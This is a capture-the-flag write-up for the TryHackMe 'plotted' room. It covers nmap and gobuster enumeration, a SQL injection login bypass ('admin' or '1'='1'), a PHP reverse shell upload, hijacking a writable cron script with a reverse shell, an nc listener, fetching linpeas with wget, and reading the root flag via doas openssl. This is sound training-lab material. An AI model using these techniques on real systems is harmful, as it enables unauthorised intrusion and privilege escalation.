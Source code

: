 ```yaml
---
title: TryHackMe - plotted
author: Bonface
date: 2024-10-31 00:00:00 +0000
categories: [TryHackMe]
tags: [tryhackme, linux, nmap, privesc, http, ssh, linpeas]
---
```


# nmap

# Command
```sh
nmap -sV -sC -v 10.10.113.22
```

# Result
```sh
Scanning 10.10.113.22 [1000 ports]
Discovered open port 445/tcp on 10.10.113.22
Discovered open port 80/tcp on 10.10.113.22
Discovered open port 22/tcp on 10.10.113.22
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 3072 a3:6a:9c:b1:12:60:b2:72:13:09:84:cc:38:73:44:4f (RSA)
| 256 b9:3f:84:00:f4:d1:fd:c8:e7:8d:98:03:38:74:a1:4d (ECDSA)
|_ 256 d0:86:51:60:69:46:b2:e1:39:43:90:97:a6:af:96:93 (ED25519)
80/tcp open http Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods:
|_ Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.41 (Ubuntu)
445/tcp open http Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods:
|_ Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)
```

# 80-http

To Do List
----------------------------------------------
- View the site
- source code
- Robots.txt
- gobuster



## gobuster 

## Command
```sh
gobuster dir -u http://10.10.113.22 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

```sh
Starting gobuster in directory enumeration mode
===============================================================
/admin
(Status: 301) [Size: 312] [--> http://10.10.113.22/admin/]
/shadow
(Status: 200) [Size: 25]
/passwd
(Status: 200) [Size: 25]
```

## View_web
![](/assets/img/plotted/1.png)

Nothing much

**visit directories from gobuster scan**


/admin
-------------------

![](/assets/img/plotted/2.png)  
id_rsa =`VHJ1c3QgbWUgaXQgaXMgbm90IHRoaXMgZWFzeS4ubm93IGdldCBiYWNrIHRvIGVudW1lcmF0aW9uIDpE`  
![](/assets/img/plotted/3.png)  

Decode the base64 using cyberchef = “Trust me it is not this easy..now get back to enumeration :D”  


/shadow
------------------------------------------
we get this text = `bm90IHRoaXMgZWFzeSA6RA==`  
First we identify it using Cipheridentifier  
Then use Cyberchef to decode it = “not this easy :D ”


/passwd
------------------------------------------
We get the same text = `bm90IHRoaXMgZWFzeSA6RA==`


# 445-tcp

To Do List
----------------------------------------------
- View the site
- source code
- Robots.txt
- gobuster



## gobuster

```sh
gobuster dir -u http://10.10.113.22:445 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
#Results
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/management
(Status: 301) [Size: 322] [--> http://10.10.113.22:445/management/]
```

##  View_web
`http://10.10.113.22:445/management/`
![](/assets/img/plotted/4.png)

management/admin/login.php
---------------------------------------------------------------
Tried  sql injection and i worked with the first trial :)  

![](/assets/img/plotted/5.png)  
`It's actually “ admin' or '1'='1  `  

Now i searched for a place to upload my reverse shell script.  
Found in admin user settings allows one to upload a file and that's my way in.I hope so.  
Using the php reverse shell script i got a shell.  


Stabilising shell
```sh
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm

$ ls -l
total 8
drwxrwx--- 14 plot_admin plot_admin 4096 Oct 28 2021 tms_backup
-rw-rw---- 1 plot_admin plot_admin 33 Oct 28 2021 user.txt
```
found the user flag but lack the permisions to view it.  
Checking the /etc/crontab.  
I found a backup.sh file that is running after some time .  

At this point was stuck.
But the file is under our control thus i can edit it .  

Generated a bash reverse shell using an online reverse shell generator.  
Then preserved the contents of the origin backup.sh into another file.  
Created one of my own and gave it executable permissions.  
![](/assets/img/plotted/6.png)

Encounted some issues but later on used my machine to create the file and give it executable permissions.  
Then used python server and wget to load it on to the machine.  

After this we run nc to listen on the port
```sh
nc -lvnp 5555
```
![](/assets/img/plotted/7.png)


# privilege 2
I downloaded linpeas in my machine then used python3 -m http.server.  
Used wget to load the file into the attack machine.  
```sh
chmod +x linpeas
To run use = ./linpeas
```

![](/assets/img/plotted/8.png)

```sh
cat /etc/doas.conf
doas openssl enc -in /root/root.txt

```
![](/assets/img/plotted/9.png)
